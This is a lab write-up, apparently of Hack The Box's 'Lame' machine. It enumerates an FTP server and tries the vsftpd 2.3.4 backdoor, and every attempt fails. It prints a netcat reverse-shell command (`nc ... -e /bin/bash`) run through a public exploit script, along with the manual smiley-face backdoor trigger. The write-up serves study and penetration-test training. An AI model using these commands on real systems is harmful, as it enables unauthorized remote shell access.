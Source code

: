 # FTP Server

## Enumerating FTP Shares

I tried replicating the anonymous login:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/lame]
└─$ ftp 10.10.10.3
Connected to 10.10.10.3.
220 (vsFTPd 2.3.4)
Name (10.10.10.3:mac): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
```

This also exposed the FTP version name.

I tried listing files before doing anything else:

```bash
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
226 Directory send OK.
```

There was nothing.

## Trying VSFTP Exploit

I ran a `searchsploit` against `vsftpd`:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/lame]
└─$ searchsploit vsftpd
----------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                         |  Path
----------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
vsftpd 2.0.5 - 'CWD' (Authenticated) Remote Memory Consumption                                                                                                         | linux/dos/5814.pl
vsftpd 2.0.5 - 'deny_file' Option Remote Denial of Service (1)                                                                                                         | windows/dos/31818.sh
vsftpd 2.0.5 - 'deny_file' Option Remote Denial of Service (2)                                                                                                         | windows/dos/31819.pl
vsftpd 2.3.2 - Denial of Service                                                                                                                                       | linux/dos/16270.c
vsftpd 2.3.4 - Backdoor Command Execution (Metasploit)                                                                                                                 | unix/remote/17491.rb
----------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

It seems there is a backdoor exploit for version 2.3.4. [Rapid7](https://www.rapid7.com/db/modules/exploit/unix/ftp/vsftpd_234_backdoor/) gives a good overview on how it was introduced.

There was a metasploit module, which we don't want to use. I found a similar python exploit:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/lame]
└─$ git clone https://github.com/ahervias77/vsftpd-2.3.4-exploit.git
```

The code doesn't seem to tell us much about how it works, but it looks like it uses a socket to setup a direct connection then supplies a command. It seems the code is exploiting a known backdoor that was introduced into the `vsftp` codebase.

Let's try a netcat reverse shell. First, setup a listener:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/lame]
└─$ nc -lnvp 9001
listening on [any] 9001 ...
```

Then attempt to send a shell with netcat back to our box:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/lame/vsftpd-2.3.4-exploit]
└─$ python3 vsftpd_234_exploit.py 10.10.10.3 21 'nc 10.10.14.13 9001 -e /bin/bash'
[*] Attempting to trigger backdoor...
[+] Triggered backdoor
[*] Attempting to connect to backdoor...
```

This hung for a while. I eventually terminated it and tried a simpler command.

```bash
┌──(mac㉿kali)-[~/Documents/HTB/lame/vsftpd-2.3.4-exploit]
└─$ python3 vsftpd_234_exploit.py 10.10.10.3 21 id
[*] Attempting to trigger backdoor...
[+] Triggered backdoor
[*] Attempting to connect to backdoor...
```

No luck.

## Trying the Exploit Manually

Instead, I tried to exploit it manually in case the exploit was broken. I followed a [great guide](https://www.hackingtutorials.org/metasploit-tutorials/exploiting-vsftpd-metasploitable/) to do this, with a cool rundown of the exploit code:

![[Pasted image 20210503225240.png]]

The exploit involves triggering the backdoor by connecting to port 21 and supplying a username suffixed with a smiley face `:)`. Then the backdoor should open on port 6200 and give you a shell:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/lame/vsftpd-2.3.4-exploit]
└─$ telnet 10.10.10.3 21
Trying 10.10.10.3...
Connected to 10.10.10.3.
Escape character is '^]'.
220 (vsFTPd 2.3.4)
USER user:)
331 Please specify the password.
PASS pass
^]
telnet> Connection closed.
┌──(mac㉿kali)-[~/Documents/HTB/lame/vsftpd-2.3.4-exploit]
└─$ telnet 10.10.10.3 6200
Trying 10.10.10.3...
^C
```

The initial connection worked, but the shell didn't pop. We can also try with netcat:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/lame/vsftpd-2.3.4-exploit]
└─$ nc 10.10.10.3 21
220 (vsFTPd 2.3.4)
USER user:)
331 Please specify the password.
PASS pass
500 OOPS: priv_sock_get_result
```

No luck. Using `nmap` we can see the port isn't open:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/lame/vsftpd-2.3.4-exploit]
└─$ nmap -Pn -p 6200 10.10.10.3
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-03 21:35 BST
Nmap scan report for 10.10.10.3
Host is up.

PORT     STATE    SERVICE
6200/tcp filtered lm-x

Nmap done: 1 IP address (1 host up) scanned in 2.17 seconds
```

This suggests we probably can't use this exploit.

# Tags

#writeup #oscp-prep #cve #ftp